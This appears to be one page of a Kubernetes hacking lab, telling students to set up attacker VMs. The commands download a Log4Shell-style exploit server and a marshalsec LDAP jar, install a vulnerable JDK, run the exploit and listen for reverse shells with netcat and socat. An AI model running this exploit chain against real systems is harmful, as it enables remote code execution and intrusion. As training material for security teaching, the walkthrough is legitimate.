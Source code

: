 +++
title = "Prepare the attacker VMs"
weight = 7
+++

We also have to prepare our attacker VM.

Let's install an application that poses as an LDAP server and provider a Java class to the vulnerable application which will create a remote connection back to the attacker VM.

**Run the following commands on the attacker01 VM.**

```ctr:
sudo zypper in -y python3
```

Download the app

```ctr:
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/poc.py
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/requirements.txt
mkdir ~/target
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/target/marshalsec-0.0.3-SNAPSHOT-all.jar -P ~/target
pip3 install -r requirements.txt
```

Download a vulnerable JDK

```ctr:
wget https://download.java.net/openjdk/jdk8u43/ri/openjdk-8u43-linux-x64.tar.gz
tar -xvf openjdk-8u43-linux-x64.tar.gz
mv java-se-8u43-ri/ jdk1.8.0_20
```

Now we can run the python app that provides the exploit

```ctr:
sudo python3 poc.py --userip ${vminfo:attacker01:public_ip} --webport 80 --lport 443 &
```

And start listening for remote shells

```ctr:
sudo nc -lvnp 443
```

**Run the following commands on the attacker02 VM.**

```ctr:
sudo zypper in -y socat
```

```ctr:
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
